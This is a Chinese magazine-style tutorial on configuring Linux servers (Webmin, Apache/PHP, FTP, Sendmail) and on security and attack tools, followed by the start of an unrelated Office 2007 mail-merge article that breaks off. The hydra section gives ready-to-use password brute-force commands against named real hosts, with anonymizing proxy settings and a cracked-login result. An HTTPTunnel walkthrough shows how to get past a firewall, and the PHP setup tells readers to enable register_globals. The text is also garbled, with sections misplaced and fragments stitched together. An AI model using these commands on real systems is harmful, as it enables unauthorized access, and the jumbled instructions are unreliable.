Webmin工具是基于控制台的工具的前端，其管理工作是通过网页的方式进行的，可以分为五个功能部分：Webmin配置、系统配置管理、服务配置管理、网络配置、硬件配置、群集配置、其他配置。所有操作简单、直观，非常适合初学者。下面，我们来见识一下它的无穷威力。

###### （1）Webmin界面

登录后，可以看到使用帮助、配置Webmin，包括服务端口号、服务模块管理、日志、用户界面、访问控制等。所有的模块都是可配置的，你可以根据自己的需要对它们进行重组。

###### （2）系统界面

系统配置主要是针对系统文件、系统日志、用户及组、进程、软件包、Cron等进行管理。在这里，用户可以配置文件系统、用户、组和系统通常的引导行为；可以控制系统中运行的服务，通过选择Bootup和Shutdown图标来决定它们是否自动启动。不过，对那些服务的具体配置是由“服务器”界面完成的。尤其要注意“Software Package（软件包）”工具，它类似Windows控制面板中的“添加或删除程序”工具，可以方便地查看系统中已经安装的软件包，以及到发行版本升级库和rpmfind.net的接口，rpmfind.net是Internet上的一个公用的RPM库。看到这个界面，是否会觉得和“控制面板”有异曲同工之妙呢？如图9所示。



它们是按照进程号PID的大小顺序来排列显示的。在最上端有几个链接：用户、内存和CPU分别用来使用不同的属性顺序来显示进程。“搜寻”链接用来搜索某个特定的进程。单击该链接，出现界面。用户可以在此指定进程属主、进程的工作目录、进程打开的文件、使用CPU的百分比、打开的端口等属性来搜索进程。

###### （3）服务器界面

几乎所有典型的Linux服务器配置都可以在这个界面中完成。服务器配置管理包括：Apache服务、FTP服务、域名服务、代理服务、邮件及邮件列表服务（其中包括Sendmail、Postfix等邮件服务器管理）、Samba文件服务器等。在下面的小节中，我们将详细讲解典型的服务器配置。如图10所示。



###### （4）网络界面

网络界面所提供的工具可以用来配置网络硬件和进行一些复杂的网络控制，比如ADSL设置、防火墙、网络配置等。所有的工具都要去修改标准的配置文件，因此，用户在Webmin中所做的任何工作都可以通过控制台工具来完成。

###### （5）硬件界面

硬件配置管理包括磁盘分区、RAID配置、DHCP、打印机配置等，主要用于配置物理设备。特别值得关注的是逻辑卷管理（Logical Volume Management, LVM）工具，它可以管理Linux系统上的动态卷。

###### （6）群集界面

群集界面中的工具用于管理群集系统。群集是一个高级的主题，还需要安装一些Linux发行版本没有自带的软件包。

可见，通过Webmin可以十分方便地进行相关操作，从简单的文件管理到复杂的工作，都可以轻易搞定。

##### 2. Apache服务器软件的安装与使用

和Windows中安装了IIS一样，RedHat Linux服务器一般自带了Apache服务器。如果没有安装，可以单击“系统设置”→“添加/删除应用程序”，然后系统会进行系统软件包状态检查。在“万维网服务器”选项上打钩，点“细节”可以看到许多和本服务器相关联的额外软件包，选定相关的软件包。安装时，就能把这些软件包安装进去。当然，这其中就包括Apache服务器了。可见，安装过程和IIS等Windows下的Web服务器十分类似。

第1步：回到Webmin的服务器管理界面中，点击第一个图标就可以进入Apache服务器的管理界面。在“服务器”图标的下方，有如下子菜单：“模块配置”、“应用修改”、“停止/启动Apache”、“搜索文档”。然后，可以看到整个配置界面分为两个部分，一个是全局配置，一个是虚拟服务器配置。如图11所示。



第2步：打开全局配置下的“网络和地址”图标，在选择“监听地址和端口”选项后，设置服务器的IP地址和https地址，并输入端口，如80、443。当然，用户也可以自己定义或修改端口。设置完毕，单击“保存”按钮。

第3步：如果需要增加虚拟服务器，可以通过Apache服务器主界面中的“创建新的虚拟服务器”选项进行设置。首先指定地址和端口，然后单击“根文件”右边的按钮，选择“/var/www/html”，在服务器名称中填入类似的地址，如“www.test.com1”。设置完毕。

第4步：在缺省服务器的下方出现了一个虚拟服务器，旁边的注释说明了服务器的详细情况。点击此虚拟服务器的图标，即可进入其设置界面。

第5步：配置完成后，点“启动Apache”，打开页面即可进行测试。现在，很多电子商务站点几乎都是动态程序。Apache也提供了对PHP、CGI等程序的支持。下面，以PHP动态网页为例进行讲解。单击“系统设置”进入“添加/删除应用程序”，然后系统会进行系统软件包状态检查。在“万维网服务器”选项上打钩，点“细节”可以看到许多和PHP程序相关联的额外软件包，建议将所有和PHP相关的软件包都选中并安装。

第6步：设置/etc/httpd/conf.d/php.conf配置文件。安装好PHP之后，使用文本编辑器打开php.conf配置文件。也可以直接通过Webmin打开Apache服务中的“编辑配置文件”图标，选择/etc/httpd/conf.d/php.conf文件，单击“编辑文件中的指令”按钮，进行编辑（#号后面是注释）。修改后的文件如下所示：

```
#
# PHP is an HTML-embedded scripting language which attempts to make it
# easy for developers to write dynamically generated webpages.
#调用PHP模块，RedHat Linux中包括了PHP4的模块libphp4.so供Apache使用。
LoadModule php4_module modules/libphp4.so
#
# Cause the PHP interpreter to handle files with a .php extension.
#
<Files *.php>
    SetOutputFilter PHP
    SetInputFilter PHP
    LimitRequestBody 524288
</Files>
# AddType application/x-httpd-php-source .phps
#
# Add index.php to the list of files that will be served as directory
# indexes.
#设置目录的默认文档
DirectoryIndex index.php
```

第7步：重新启动httpd服务。仅仅更改Apache的配置文件是不够的，这样PHP程序还是不能运行，还要修改/etc/php.ini文件中的如下选项，修改“register_globals=off”为“register_globals=on”。这样PHP程序就可以运行了。

##### 3. FTP软件的安装与使用操作

在RedHat Linux中，系统在默认安装模式下安装了vsftpd。在文本模式下运行vsftpd的命令为“service vsftpd start”。vsftpd服务也可以在图形模式下开启，步骤为：依次打开主菜单下的“系统设置”，选择“服务器设置”中的“服务”，拉动滚动条找到vsftpd选项，选中后点击“开始”，即可启动vsftpd服务。如果将复选框选中，则每次启动Linux系统都会自动运行vsftpd服务。如图12所示。



这样，就可以通过各种方式来访问这个FTP服务器了。一般情况下，输入默认的主机地址、用户、密码即可正常访问。如果出现连接不上，就要考虑一下Linux服务器上的防火墙等问题。现在，Linux下比较常用的免费FTP服务器软件还有Wu-FTP和ProFTP，其中，ProFTP的功能十分强大，越来越多的站点选择它来构筑安全高效的FTP站点。有兴趣的读者可以一试，下载地址为：ftp://ftp.proftpd.net。

##### 4. Sendmail邮件服务器的安装和配置

在网络管理员的日常工作中，邮件服务器扮演着一个非常重要的角色，从局域网的安全防范到操作系统的稳定运行，都离不开电子邮件。目前，有许多的程序可以作为邮件传输代理，但Linux下的Sendmail则是其中最重要的一个，事实证明，它可以支持数千甚至更多的用户，而且占用的系统资源相当少。默认情况下，Sendmail服务器安装程序在安装光盘，可以选择安装。单击“系统设置”进入“添加/删除应用程序”，然后系统会进行系统软件包状态检查。选中服务器栏下的“邮件服务器”选项。在文本模式下，用“/etc/rc.d/init.d/sendmail start”命令启动Sendmail，也可以在图形界面下直接启动Sendmail服务。下面是Sendmail邮件服务器的配置方法。

第1步：打开Webmin“服务器”中的“Sendmail配置”一栏，单击进入。也可以通过Windows下的IE浏览器打开。

第2步：打开“本地域（Cw）”，这个区域是设置邮件服务器负责收发的网域。默认值是localhost.localdomain和localhost。现在它负责本机的信件转发。如果要让它负责新的转发，则要加入地址，如“cndes.net”。然后单击“保存”按钮。

第3步：因为现在假设的服务器名是www.cndes.net，所以本服务器负责的邮件会成为xxx@www.cndes.net，这样就比较麻烦了。如果只显示比较简单的域名，如xxx@cndes.net，就要设置域名伪装。以前这些设置都要通过修改配置文件来完成，十分麻烦。现在通过“域名伪装（CM）”就可以了。

第4步：邮件用户的管理也很简单，在Sendmail中，合法的主机用户就是邮件账户，管理邮件账户的方法和管理系统用户方法一致，可以通过用户管理器来管理账户。启动用户管理器的方法是：点击主菜单下的系统设置，选择“用户和群组”，就可以进行账户管理了。

第5步：本地测试。打开RedHat自带的Evolution电子邮件客户端程序进行收发测试。设置两个默认的账户cndes@cndes.net和root@cndes.net，然后cndes给root发送了一封测试邮件。如图13所示。

第6步：配置供客户端使用邮件软件远程收取邮件的服务。现在，很多用户都习惯利用Outlook等Windows下的软件收发邮件。为了让用户能够访问Sendmail服务器中的邮件，就需要安装IMAP或者POP服务，这样用户就可以将电子邮件从主机取回到自己的电脑中阅读。在RedHat Linux中，这两个软件是捆绑在一起的。首先要检查/usr/sbin目录下是否有ipop3d或imapd文件。如果没有，则需要自行安装。

第7步：安装ipop3d、imapd文件后，需要打开POP3的连接端口。方法是打开/etc/xinetd.d/下面的ipop3文件，将disable的值修改为no。

第8步：重新启动xinetd使配置生效。使用命令“/etc/init.d/xinetd restart”。这样，一个稳定高效的Linux邮件服务器就可以开始运行了。细心的用户留意一下许多公司的招聘广告就会发现，学会配置Linux邮件服务器已经成为高薪的必备条件之一。使用此方法后，我们也许会沾沾自喜：原来配置Linux邮件服务器如此简单！

> **小技巧** 现在运行在Linux环境下免费的邮件服务器有若干种选择，比较常见的有Sendmail、Qmail、Postfix、exim及Zmailer等等。Linux下的Postfix邮件服务器也是一款性能十分卓越的邮件服务器，它快速、易于管理、安全性高，同时和Sendmail邮件服务器的兼容性也很不错。

实际上，Linux中还有很多优秀的服务器软件，如DNS 服务器、CVS服务器、DHCP服务器、数据库服务器、Samba网络服务器等。正是这些优秀的功能组合，再加上完全免费的优势，使得Linux的功能越来越强大，并逐渐在激烈的操作系统市场中占据了一席之地。

#### 四、进阶篇：Linux下的安全软件操作

Linux操作系统是一个开放源代码的免费操作系统，它不仅稳定、成本低，而且安全性高。但Linux的安全性并非与生俱来，用户的安全操作也十分重要。下面，以用户的进阶操作为目标，精选多款安全软件并讲解其操作方法。

一些应用实例。

实际应用中，如果阻止来自某一特定IP范围内的数据包，是因为该IP地址范围被管理员怀疑有大量恶意攻击者在活动：

##### 1. iptables: Linux下的超级保镖

网络安全实践中，防火墙 (Firewall) 的基本功能是过滤并阻挡本地网络与Internet之间的数据传送。另外，无论是网络管理员还是黑客，对数据截获分析都十分重视，因此，在进阶提高部分，我们也讲使用直观简单的方式对这两部分内容进行讲解。Linux提供了一个优秀的防火墙工具——iptables，它完全免费、功能强大、使用灵活，可以对流入和流出的信息进行细化控制，能够在一台低配置机器上很好地运行。

###### (1) 安装和启动

一般情况下，iptables已经包含在Linux发行版中，运行iptables-version来查看系统是否安装了iptables。如果系统没有安装iptables，则可以从http://www.netfilter.org下载。使用中可以运行man iptables来查看所有命令和选项的完整介绍，或者运行iptables -help来查看一个快速帮助。

iptables服务也可以在图形模式下开启，步骤为：依次打开“主菜单”下的“系统设置”，选择“服务器设置”中的“服务”，拉动滚动条找到iptables选项，选中后点击“开始”，即可启动防火墙服务；如果不想使用防火墙，点击“停止”即可。如图14所示。

###### (2) 使用实例分析

iptables功能十分强大，它可以检测到源地址和目的地址、源端口和目的端口及流入数据包的顺序，即iptables记住了在现有连接中，哪些数据包已经被允许接收。这使得暂时性的端口只有在需要时才会被打开，并且会拒绝所有永久性占用端口的请求，大大地加强了安全性。下面是关于iptables防火墙的一些应用实例。

```
bash
# iptables -t filter -A INPUT -s xxx.xxx.xxx.0/24 -j DROP
```

也可以很轻易地阻止所有流向攻击者IP地址的数据包，该命令稍有不同：

```
bash
# iptables -t filter -A OUTPUT -d xxx.xxx.xxx.0/24 -j DROP
```

注意这里的A选项，使用它说明是给现有的链添加规则。网络上的恶意攻击者总是在变化的，因此需要不断改变IP。假设一个网上攻击者转移到新的IP地址，而原来的IP地址被分配给一些清白的用户，那么这时用户的数据包将无法通过网络。这种情况下，可以使用带-D选项的命令来删除现有的规则：

```
bash
# iptables -t filter -D OUTPUT -d 192.168.10.0/24 -j DROP
```

一旦测试结果令人满意，就可以将上述测试结果保存为脚本。可以使用“iptables-save > iptables-script”命令来实现，现在，信息包过滤表中的所有规则都被保存在文件iptables-script中。无论何时再次引导系统，都可以使用 iptables-restore 命令将规则集从该脚本文件恢复到信息包过滤表，命令为 “iptables-restore iptables-script” 。

创建一个具有很好灵活性、可以抵御各种意外事件的规则需要大量的时间。对于那些没有时间这样做的人，最基本的原则是“先拒绝所有的数据包，然后再允许需要的”。需要提示的是：功能强大的iptables防火墙是完全免费的，这对于那些想要功能卓越而又想节省费用的用户来说，是一种比较理想的选择。

##### 2. TCPDump: Linux下的网络管理工具

对于网络管理员来说，要保证整个网络的正常运行，就必须随时了解网络中存在的异常流量、网络阻塞等现象。打个比方，一部电话的窃听装置，可以用来窃听双方通话的内容，而计算机网络嗅探器则可以窃听计算机程序在网络上传送和接收到的数据。但是，计算机所传送的数据是大量的二进制数据。因此，一个网络窃听程序也必须使用特定的网络协议来分析数据，进行正确的解码。那么，对于钟爱Linux的网络安全爱好者来说，能否找到这样一款强大的Linux下的嗅探器呢？TCPDump就是一款免费的网络分析工具，它可以将网络中传送的数据包的“头”完全截获下来提供分析，它支持针对网络层、协议、主机、网络或端口的过滤，并提供and、or、not等逻辑语句来帮助你去掉无用的信息。

###### (1) 安装和启动

在Linux下TCPDump的安装十分简单，一种是以rpm包的形式来进行安装，另一种是以源程序的形式安装。以rpm包的安装方法比较简单，通过rpm命令可以直接安装，rpm包是将软件编译后打包成二进制的格式，不需要修改任何东西。安装时，以超级用户登录，参考命令如下：#rpm -ivh TCPDump.rpm。这样，TCPDump就可以顺利地安装到Linux系统中。不过，现在较高版本的Linux操作系统都自带了这个工具，关于TCPDump更详细的信息，可以查看Man TCPDump。

普通情况下，不带参数执行TCPDump，即：#TCPDump，截获的是通过第一个网络界面的数据包。直接启动TCPDump将监视第一个网络界面上所有流过的数据包。如图15所示。

从上面的输出结果来看，TCPDump的基本输出格式为“系统时间 来源主机.端口 > 目标主机.端口 数据包参数”。仔细观察，我们会发现，和上面的Windows界面相比，数据包格式有很多相似之处，这样也有助于我们来了解这个软件的使用方法。

###### (2) 参数分析

TCPDump支持多种不同参数，如使用-i参数指定TCPDump监听的网络界面，这在计算机具有多个网络界面时非常有用；使用-c参数可以指定要监听的数据包数量；使用-w参数指定将监听到的数据包写入文件中保存，等等。

然而，在数据的海洋中，TCPDump中更复杂的参数主要是用于过滤。这是为什么呢？因为在实际操作中，网络中流量很大，如果将所有的数据包都截留下来，数据量就会很大，反而不容易发现所需要的数据包。如果不带任何参数，TCPDump就会搜索系统中所有的网络接口，并显示它截获的所有数据，这些数据对我们不一定全都需要，而且数据太多不利于分析。

所以，我们应当先想好需要哪些数据，TCPDump的语法为：

```
TCPDump [-adeflNnOpqStvx][-c<数据包数目>][-dd][-ddd][-F<表达文件>][-i<网络界面 >][-r<数据包文件>][-s<数据包大小>][-tt][-T<数据包类型>][-vv][- w<数据包文件>][输出数据栏位]
```

在实际使用中，我们可以灵活应用。例如，截获所有192.168.10.1的主机收到的和发出的所有数据包。命令为：TCPDump host 192.168.10.1，实际效果如图16所示。

##### 3. 基于主机和网络的扫描软件

漏洞扫描器是一种自动检测远程或本地主机安全性弱点的程序。和Windows系统一样，当黑客得到目标主机的清单后，他就可以用一些Linux扫描器程序寻找这些主机的漏洞。这样，攻击者可以发现服务器的各种TCP端口的分配、提供的服务、Web服务软件版本和这些服务及安全漏洞。而对系统管理员来说，如果能够及时发现并阻止这些行为，也可以大大减少入侵事件的发生。按常规标准，可以将漏洞扫描器分为两种类型：主机漏洞扫描器（Host Scanner）和网络漏洞扫描器（Network Scanner）。主机漏洞扫描器是指在系统本地运行检测系统漏洞的程序；网络漏洞扫描器则是指基于Internet远程检测目标网络和主机系统漏洞的程序，下面，我们选取一些典型的软件及实例进行介绍。

###### (1) 基于主机的扫描软件

首先来看看sXid。软件下载地址：http://www.phunnypharm.org/pub/sxid/。sXid是一个系统监控程序，软件下载后，使用“make install”命令即可安装。它可以扫描系统中的suid和sgid文件和目录，因为这些目录很可能是后门程序，并可以设置通过电子邮件来报告结果。缺省安装的配置文件为/etc/sxid.conf，这个文件的注释很容易看懂，它定义了sxid的工作方式、日志文件的循环次数等；日志文件缺省为/var/log/sxid.log。出于安全方面的考虑，我们可以在配置参数后把sxid.conf设置为不可改变，使用chattr命令把sxid.log文件设置为只可添加。此外，我们还可以随时用sxid -k加上 -k选项来进行检查，这种检查方式很灵活，既不记入日志，也不发出E-mail。如图17所示。

其次是LSAT。LSAT是一款本地安全扫描程序，全称为Linux Security Auditing Tool，软件下载地址：http://usat.sourceforge.net。发现默认配置不安全时，它可以生成报告。LSAT由Triode开发，主要针对基于RPM的Linux发布设计的。软件下载后，进行如下编译：

```
cndes$ tar xzvf last-VERSION.tgz
cndes$ cd lsat-VERSION
cndes$ ./configure
cndes$ make
```

然后以root身份运行：root# ./lsat。默认情况下，它会生成一份名字叫lsat.out的报告。LSAT可以检查的内容很多，主要有：检查无用的RPM安装；检查inetd、Xinetd和一些系统配置文件；检查SUID和SGID文件；检查777的文件；检查进程和服务；开放端口等。LSAT的常用方法是用cron定期调用，然后用diff比较当前报告和以前报告的区别，就可以发现系统配置发生的变化。

除了上述工具，基于主机的扫描工具还有：COPS、GNU Tiger、Nabou、SATAN、strobe、IdentTCPscan等。

###### (2) 基于网络的扫描工具

这里重点介绍Nmap。软件下载地址：http://www.insecure.org/nmap。Nmap即Network Mapper，它是在免费软件基金会的GNU General Public License (GPL)下发布的。其基本功能有：探测一组主机是否在线；扫描主机端口，嗅探提供的网络服务；判断主机的操作系统。软件下载后，执行configure、make和make install三个命令，将nmap二进制码安装到系统上，就可以执行nmap了。

##### 4. 网络攻击和破解软件

试。软件下载地址：http://www.Nessus.org/。
除了上述安全工具，还有p0f、ISS、Whisker、Nikto、Xprobe等扫描工具。这些软件用途各有差异，并具有许多个性化的扫描功能。例如，XProbe可以测定远程主机操作系统的类型，能够准确地帮助用户判断搜集系统信息。

现在，大量的网络服务器开始使用Linux操作系统，Linux服务器的安全性也开始受到关注。对Linux服务器攻击的定义是：攻击是一种旨在妨碍、损害、削弱、破坏Linux服务器安全的未授权行为，攻击的范围可以从服务拒绝直至完全危害和破坏Linux服务器。对Linux服务器攻击有许多种类，从攻击深度的角度说明，我们可以把攻击分为四级：服务拒绝攻击（DoS）、本地用户获取了非授权的文件的读写权限、远程用户获得了特权文件的读写权限、远程用户获得根权限。下面，我们将选取一些有针对性的经典工具，一一加以说明。

###### （1）入侵检测系统攻击及口令破解

软件Fragroute，下载地址：http://www.monkey.org/~dugson/fragroute/。这个软件和DSniff出自一家，这个工具开发的本意是去测试入侵检测系统、防火墙、基本的TCP/IP栈的行为，因此，它是一个能够破坏入侵检测系统的强大工具。此外，它还能够截取、修改和重写向外发送的报文，实现了大部分的IDS攻击功能。Fragroute有一个简单的规则设置语言，通过它，可以实现延迟、复制、丢弃、碎片、重叠、打印、重排、分割、源路由或其他一些向目标主机发送数据包的攻击。

软件Crack，是破解软件中的开山鼻祖，破解UNIX口令的著名工具，现在已经成为了检查网络口令弱点的工业标准。它由Alec D.E.Muffett编写，工作原理十分简单。我们知道加密口令是不会被解开的，这是因为加密算法是不可逆的。所以，一般的口令入侵是通过生成口令进行加密去匹配原口令密码，或直接从网上截获明文口令。Crack程序中包含了几很大的字典库，进行破解时它会按照一定的规则将字词进行组合，然后对之进行加密，再与要破解的加密口令匹配。在使用中，如果口令文件很小，时间和资源都不成问题，但是如果口令文件比较大，则要花费很长的时间和耗费相当的资源。

软件John the Ripper，下载地址：http://www.openwall.com/john/。John the Ripper是一个功能强大、灵活、快速的多平台哈希口令破解器，它设计的主要目的是用于检查Unix系统的弱口令，支持几乎所有Unix平台上经crypt函数加密后的口令哈希类型，也支持Kerberos AFS和Windows NT/2000/XP, LM哈希等。

###### （2）密码破解工具hydra

说到网络安全，我们自然会联想到密码破解。的确，密码与用户账户的有效利用是网络安全性的最大问题之一，密码破解是用以描述在使用或不使用工具的情况下渗透网络、系统或资源以解锁用密码保护的资源的一个术语。不过，破解往往被很多高手所不齿，尤其是暴力破解很多人都认为这是无能的表现。但是，有时候破解却是入侵中唯一且有效的方法。远程破解相信大家都用过，不过，要说比较优秀的软件，就要数hydra了。这是一款Linux平台下的远程登录密码破解工具。它支持TELNET、FTP、HTTP、HTTPS、HTTP-PROXY、LDAP、SMB、SMBNT、MS-SQL、MYSQL、REXEC、SOCKS5、VNC、POP3、IMAP、NNTP、PCNFS、ICQ、SAP/R3、Cisco auth、Cisco enable、SMTP-AUTH、SSH2、SNMP、CVS、Cisco AAA等众多登录方式的密码破解，值得一提的是，它还支持SSL这个协议。下面，我们将对有些参数进行详细的讲解，通过具体说明和例子，可以很容易地进行操作。

软件下载地址为：http://www.thc.org/download.php?t=r&f=hydra-4.6-src.tar.gz或http://www.xfocus.net/tools/200502/991.html
下载并解压到一个目录，运行时说明如下：

```
# nmap -sT -p 80 -I -O www.yourserver.com
```

> 小技巧 Nmap的语法很简单，但功能十分强大。比如：Ping-scan命令就是“-sP”，在确定了目标主机和网络之后，即可进行扫描。如果以root来运行Nmap，Nmap的功能会进一步加强，因为超级用户可以创建便于Nmap利用的定制数据包。使用Nmap进行单机扫描或是整个网络的扫描很简单，只要将带有“/mask”的目标地址指定给Nmap即可。另外，Nmap允许使用各类指定的网络地址，比如192.168.100.*，是对所选子网下的主机进行扫描。

Ping扫描。入侵者使用Nmap扫描整个网络寻找目标。通过使用“-sP”命令，缺省情况下，Nmap给每个扫描到的主机发送一个ICMP echo和一个TCP ACK，主机对任何一种的响应都会被Nmap得到。
Nmap支持不同类别的端口扫描，TCP连接扫描可以使用“-sT”命令。
隐蔽扫描(Stealth Scanning)。在扫描时，如果攻击者不想使其信息被记录在目标系统日志上，TCP SYN扫描可帮你的忙。使用“-sS”命令，就可以发送一个SYN扫描探测主机或网络。
如果一个攻击者想进行UDP扫描，即可知哪些端口对UDP是开放的。Nmap将发送一个0字节的UDP包到每个端口。如果主机返回端口不可达，则表示端口是关闭的。在操作系统识别方面，通过使用“-O”选项，就可以探测远程操作系统的类型。Nmap通过向主机发送不同类型的探测信号，缩小查找操作系统的范围。
攻击者都喜欢寻找一台对于某些进程存在漏洞的电脑，比如一个以root运行的WEB服务器。如果目标机运行了identd认证服务，攻击者就可以通过“-I”选项的TCP连接发现哪个用户拥有http守护进程。我们以扫描一个Linux WEB服务器为例，使用如下命令即可：

另外，Nessus也是一款优秀的网络扫描工具。它具有强大的报告输出能力，可以产生HTML、XML、LaTeX和ASCII文本等格式的安全报告，并能为每个安全问题提出建议。除了具有强大的插件功能，Nessus还为用户提供了描述攻击类型的脚本语言，来进行附加的安全测试。

> 小技巧 目前，出现了在cygwin下编译出的hydra，cygwin是一个在windows平台上运行的UNIX模拟环境，是cygnus solutions公司开发的自由软件（该公司开发了很多好东西，著名的还有eCos，不过现已被RedHat收购）。它对于学习UNIX Linux操作环境，或者从UNIX到windows的应用程序移植，或者进行某些特殊的开发工作，尤其是使用gnu工具集在windows上进行嵌入式系统开发，非常有用。

```
软件下载地址：http://www.Nessus.org/
```

```
软件Fragroute，下载地址：http://www.monkey.org/~dugson/fragroute/
```

```
软件John the Ripper，下载地址：http://www.openwall.com/john/
```

```
软件下载地址为：http://www.thc.org/download.php?t=r&f=hydra-4.6-src.tar.gz或http://www.xfocus.net/tools/200502/991.html
```C:\hydra>hydra
Hydra v4.6 [http://www.thc.org] (c) 2007
by van Hauser / THC vh@thc.org
Syntax: hydra [[-] LOGIN|-L FILE]
[-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]]
[-w TIME] [-f] [-s PORT] [-S] [-W] server
service [OPT]

从上面的提示可以看到程序的相关参数，而且支持的协议非常多，正如作者所言 [Number one of the biggest security holes are passwords]，下面，我们来看几个协议的例子吧。

第一个例子。假如我们想破解一个 http 登录页面，登录账户是 cndes，密码文件为 passlist，目标地址为 www.attack.com，那么此工具的命令行为：

hydra -l cndes -P /tmp/passlist www.attack.com http /members/
它和下面的攻击效果是一样的：
hydra -m /members/ -l cndes -P /tmp/passlist www.attack.com http

第二个例子。如果我们要破解 nt.microsoft.com 上的本地账户和 NTLM 密码散列，我们可以这样：

hydra -m LH -l administrator -P sam.dump nt.microsoft.com smbnt

第三个例子，是关于 sap r3 系统的，并指定了客户端 id：

hydra -l gast -p gast -m 6 -s 3200 sapr3.sap.com sap r3

第四个例子则指定了 telnet 成功后的提示字符 “我们成功了”。

hydra -l bla -p blubb ms.com telnet "我们成功了"

在破解的时候，可以随时按下 Ctrl+C 组合键来终止破解，它会把恢复破解的信息记录在 hydra.restore 文件内，以方便我们再次从中断点进行破解。hydra 默认是每五分钟记录一次破解点，下次想继续破解的时候可以使用 hydra -R 来继续上次的破解过程。另外，对于 http/www 服务的破解，我们可以指定代理服务器。方法是指定环境变量，即设置 HYDRA_PROXY_HTTP 为指定的代理地址。如：

C:\hydra>set HYDRA_PROXY_HTTP="http://222.124.114.10:8080/"

如果想为其他的服务也使用代理，那么需要指定 HYDRA_PROXY_CONNECT 值为代理地址。比如：

HYDRA_PROXY_CONNECT=proxy.anonymizer.com:8000

如果代理服务器需要验证的话可以指定如下的环境变量值为指定账户和密码：

HYDRA_PROXY_AUTH="the_login:the_password"

第五个例子是关于 ftp 登录的。其中，login 为要破解的用户名，passlist 为密码字典库。

hydra -l login -P /tmp/passlist 192.168.10.1 ftp

第六个例子是关于 smb 破解的，SMB 是一个通过网络在共享文件、设备、命名管道和邮槽之间操作数据的协议，在某些情况下甚至可以共享 COM 端口。SMB 客户或服务器总是希望使用 NETBIOS 接口，换而言之，无论底层使用什么协议，SMB 总希望使用统一的接口和远程系统进行通信。我们可以把 NETBIOS 想象为乘客，而把它下层的协议想象成随便什么交通工具，这些交通工具载着乘客从 A 地到达 B 地，完成通信。下面是一个实例：

hydra -l login -P passfile 192.168.10.1 smb

其中，login 为要破解的登录名，passfile 为密码字典库，smb 操作系统登录密码破解，测试示例如下所示。

[root@cndes Hydra-4.6]$ ./hydra -l root -P password.lst -t 100 localhost ftp
Hydra v4.6 [http://www.thc.org] (c) 2007 - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 100, login tries: 2292 (l:1/p:2292)]
[21][ftp] login: root password: test
Hydra finished.

实际测试中，我们可以根据不同的应用场合，选择不同的参数进行分析，这样，就可以随心所欲地达到我们的破解目的了。

###### （3）后门和连接工具 Httptunnel

Httptunnel 的下载地址：http://www.http-tunnel.com/html/。Tunnel 的意思是隧道，通常 HTTPTunnel 被称之为 HTTP 暗道，它的原理就是将数据伪装成 HTTP 的数据形式来穿过防火墙，实际上，它是在 HTTP 请求中创建了一个双向的虚拟数据连接来穿透防火墙的。说得简单点，就是说在防火墙两边都设立一个转换程序，将原来需要发送或接受的数据包封装成 HTTP 请求的格式骗过防火墙，所以它不需要别的代理服务器而直接穿透防火墙。HTTPTunnel 包括两个程序：htc 和 hts，其中 htc 是客户端，而 hts 是服务器端，我们现在来看看我是如何用它们的。比如开了 FTP 的机器的 IP 是 192.168.10.231，本地机器 IP 是 192.168.10.226，因为防火墙的原因，本地机器无法连接到 FTP 上。怎么办？现在就可以考虑使用 HTTPTunnel 了。过程如下：

第1步：在本地机器上启动 HTTPTunnel 客户端。用 Netstat 看一下本机现在开放的端口，会发现 8888 端口已在侦听。

第2步：在对方机器上启动 HTTPTunnel 的服务器端，并执行命令 “hts -f localhost:21 80”，这个命令的意思是说，把本机的 21 端口发出去的数据全部通过 80 端口中转一下，并且开放 80 端口作为侦听端口，再用 Netstat 看一下他的机器，就会发现 80 端口现在也在侦听状态。

第3步：在本地机器上用 FTP 连接本机的 8888 端口，会发现已经连上对方的机器了。那么，为什么人家看到的是 127.0.0.1，而不是 192.168.10.231 呢？因为我们现在是连接本机的 8888 端口，防火墙肯定不会有反应，如果没往外发包，局域网的防火墙肯定就不知道了。现在连接上本机的 8888 端口以后，FTP 的数据包不管是控制信息还是数据信息，都被 htc 伪装成 HTTP 数据包然后发过去，在防火墙看来，这都是正常数据，相当于欺骗了防火墙。

需要说明的是，这一招的使用需要其他机器的配合，就是说要在他的机器上启动一个 hts，把他所提供的服务，如 FTP 等重定向到防火墙所允许的 80 端口上，这样才可以成功绕过防火墙。HTTPTunnel 的优点就在于，即使他的机器以前 80 端口开着，现在也不会出现什么问题，重定向的隧道服务将畅通无阻。

当然，在茫茫的 Linux 软件大海中，上面所介绍的软件只是其中的几只个性化贝壳，随着越来越多的用户加入到 Linux 大军中，我们相信，优秀软件也将越来越多，这反过来也将促进 Linux 操作系统逐步走向成熟。此刻，也许我们的脑海里又闪过了那只让人爱不释手的小企鹅，正是它所代表的那种自由、开放以及欢快精神，Linux 世界才充满了如此多的独特魅力。

## # 与 Office 2007 亲密接触 实例讲解

◆文/王兰富

### 实例讲解之一：

### 利用 Word 邮件合并来批量制作邀请函

如果你从事公司文秘或者其他类似的工作，筹备会议时可能被大量的邀请函、传真搞得焦头烂额，因为每份邀请函等都要单独输入单位名称、人名以及职务等信息，即便是利用一些辅助文秘软件也很麻烦。现在告诉你一个诀窍，利用 Word 中的“邮件合并”功能，就可以通过一次设置，自动生成批量邀请函了，其中所需的个人信息会自动读取数据源而自动输入，从而让你的工作变得轻松起来！下面就看看如何使用 Word 2007 的“邮件合并”工具，来快速批量制作会议邀请函。

##### 一、批量制作邀请函前的准备工作

由于是准备批量制作邀请函，因此必须首先在 Word 中创建一份邀请函模板以及编辑被邀请单位的信息源文件。

邀请函模板可根据自己的需要，使用 Word 自带的模板或者新建。利用模板创建时，启动 Word 2007，单击左上角的 Office 按钮，从弹出的下拉菜单中选择“新建”命令，在弹出的“新建文档”对话框中，单击“已安装的模板”选项，然后从弹出的模板列表中，选择自己喜欢使用的一种模板样式，比如“平衡信函”，然后单击“创建”按钮，就可以在 Word 中创建一份邀请函模板了（图1-1）。在创建的邀请函模板中，根据自己公司会议的需求，输入邀请函内容以及本公司信息等，并删除原模板中不需要的内容，而在邀请函的抬头位置予以空白，以便于此处以后自动输入被邀请单位名称、被邀请人姓名以及职务等（图1-2）。

而对于所需要的被邀请单位信息，可以通过预先编辑好的 Excel 表格文件、Access 数据库或者直接从 Outlook 联系人列表中予以读取，从而完成批量输入。如本文中就是直接从 Outlook 联系人列表中获取相关信息的。

##### 二、进行邮件合并，批量制作邀请函

